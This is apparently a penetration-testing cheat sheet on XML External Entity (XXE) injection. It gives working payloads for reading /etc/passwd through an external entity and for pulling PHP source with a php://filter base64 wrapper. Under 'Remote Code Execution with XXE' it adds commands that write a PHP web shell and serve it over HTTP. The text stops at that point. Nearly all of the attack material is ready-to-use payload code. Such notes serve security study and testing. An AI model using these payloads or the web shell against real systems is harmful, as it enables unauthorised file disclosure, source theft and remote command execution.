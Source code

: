 ```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

# Local File Disclosure
Define a new entity and use it as a variable when you discover there are displayed elements on the page.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

```
&company;
```

```xml
example
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
<root>
<name>hiya</name>
<tel>1234567890</tel>
<email>&company;</email>
<message>teehee</message>
</root>
```

## Reading PHP files
Use PHP wrapper filters to read PHP files

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## Remote Code Execution with XXE

```shell-session
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
